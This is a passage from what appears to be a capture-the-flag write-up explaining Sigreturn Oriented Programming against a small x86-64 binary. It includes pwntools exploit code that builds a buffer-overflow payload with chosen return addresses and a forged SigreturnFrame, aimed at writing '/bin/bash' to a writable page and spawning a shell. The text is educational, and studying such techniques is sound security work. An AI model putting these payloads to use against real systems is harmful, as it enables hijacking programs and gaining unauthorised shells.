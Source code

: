 ```strace
)                      = 2
```
Here is what manpage has to say about the `rt_sigreturn` or `sigreturn` syscall.
```manpage
       sigreturn, rt_sigreturn - return from signal handler and cleanup stack frame
```
So, the sigreturn syscall restores the values of registers from the stack.
If we call this syscall, in absence of any signal taking place, the registers are not stored on stack.
If we can write on stack in that region, we can carefully fill the stack in such a way that the register values are whatever we want.
This is how sigreturn syscall works and how it can be used for Sigreturn Oriented Programming.
For creating the frame to put on stack, we can use `SigreturnFrame()` from python pwntools library.



So, first, we need to find a way to put 15 in `rax`. We can control `rax` using the return value of `syscall`.
So, first, if we jump to 0x401102, the program reads bytes from stdin and puts number of bytes read in `rax`.
The next return address should be to 0x40111c, so that we get a `sigreturn syscall`. After that, the stack should store a valid Sigreturn Frame.
So, we can write this for now.
```python
payload = b'A'*0x200 # padding
payload += p64(0x401102) # return to reading to set rax = 15
payload += p64(0x40111c) # return to syscal after getting rax = 15
```
For now, we have the following view of stack.
```
 AAAA...AAAA                    padding of 0x200 bytes
 02 11 40 00 00 00 00 00        return address to jump to start of main
 1c 11 40 00 00 00 00 00        return address to instruction syscall
```

After the above part, we need to put sigreturn frame. It can easily be done using python pwntools using `SigreturnFrame()`.
In order to spawn shell, we need a string `/bin/bash` somewhere so that we can put it's address in corresponding register.
Using memory map we see that the page starting from 0x404000 is writable.
```
00400000-00401000 r--p 00000000 
00401000-00402000 r-xp 00001000 
00402000-00403000 r--p 00002000 
00403000-00404000 r--p 00003000 
00404000-00405000 rw-p 00004000 
```
So, we can write `/bin/bash` on address 0x404000 and use it later.
Therefore, we use the following values for the registers.
```python
context.arch = 'amd64'
frame0 = SigreturnFrame()
frame0.rax = 0 # read syscall
frame0.rdi = 0 # fd = 0
frame0.rsi = 0x404000 # writable section available
frame0.rsp = 0x404000
frame0.rdx = 0x500 # count
frame0.rip = 0x40111c # syscall instruction
payload += bytes(frame0)

p.send(payload)
```
